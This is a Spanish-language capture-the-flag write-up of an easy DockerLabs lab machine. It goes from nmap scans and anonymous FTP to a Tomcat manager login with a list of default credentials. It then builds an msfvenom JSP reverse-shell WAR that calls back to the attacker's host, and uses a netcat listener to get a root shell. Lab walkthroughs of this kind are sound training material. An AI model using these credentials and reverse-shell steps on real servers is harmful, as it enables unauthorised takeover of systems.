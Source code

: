 #Writeups #Easy #DockerLabs
[[Writeups]]

![dockerLabs.png](assets/dockerLabs.png)

Hacemos un escaner general:

```zsh
❯ sudo nmap -sS -p- -Pn --min-rate 5000 172.17.0.2
[sudo] contraseña para dached: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-25 17:55 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
8080/tcp open  http-proxy
MAC Address: 02:42:AC:11:00:02 (Unknown)

```

y ahora u escaner más profundo en los puertos 21 y 8080

```zsh
❯ sudo nmap -p21,8080 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-25 17:57 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000028s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              74 Apr 19 07:32 tomcat.txt
8080/tcp open  http    Apache Tomcat 9.0.88
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.88
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.41 seconds

```

Vemos que en el ftp se permite el anonympous login, pero antes vamos a ver la web.

introduciendo la url: ```http://172.17.0.2:8080/ ``` nos aparece esta web.

![tomactpn.png](assets/tomactpn.png)


vamos a entrar al ftp a ver que encontramos


```zsh
❯ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||56530|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              74 Apr 19 07:32 tomcat.txt
226 Directory send OK.
ftp> get tomcat.txt
local: tomcat.txt remote: tomcat.txt
229 Entering Extended Passive Mode (|||33461|)
150 Opening BINARY mode data connection for tomcat.txt (74 bytes).
100% |**********************************************************************|    74        1.43 MiB/s    00:00 ETA
226 Transfer complete.
74 bytes received in 00:00 (333.02 KiB/s)
```

obtenemos el archivo tomcat.txt que contiene este mensaje:

```
Hello tomcat, can you configure the tomcat server? I lost the password...
```

Con esto vamos a probar entrar al login del tomcat en la web, vamos a usar el User: tomcat y la contraseña usaremos default contraseñas de tomcat como:

```
- admin:admin
    
- tomcat:tomcat
    
- admin:
    
- admin:s3cr3t
    
- tomcat:s3cr3t
    
- admin:tomcat
```

Estas credenciales por defecto las encontramos en [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat)

por lo que en la web nos vamos a Manager App y en el login las probamos:

![tomcatlogin.png](assets/tomcatlogin.png)

y con las credenciales de **tomcat:s3cr3t** obtenemos acceso:

![tomcatuipn.png](assets/tomcatuipn.png)

En tomcat podemos subir archivos .war, para esta maquina me he guiado con la pagina de [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat) así que haremos una reverse shell con msfvenom:

```bash
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.217 LPORT=1234 -f war -o revshell.war
Payload size: 1098 bytes
Final size of war file: 1098 bytes
Saved as: revshell.war

```

y en tomcat lo subimos en el apartado de Archivo war a desplegar, en mi caso puse la url revshell:

![revShellomcat.png](assets/revShellomcat.png)

Desplegamos y nos aparece un nuevo directorio:

![newdortomcat.png](assets/newdortomcat.png)

ponemos net cat a la escucha:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...

```

accedemos en mi caso al directorio /revshell y parece que obtenemos una consola con root:

![rootPn.png](assets/rootPn.png)

 así que con esto ya tendríamos toda la maquina vulnerada.
 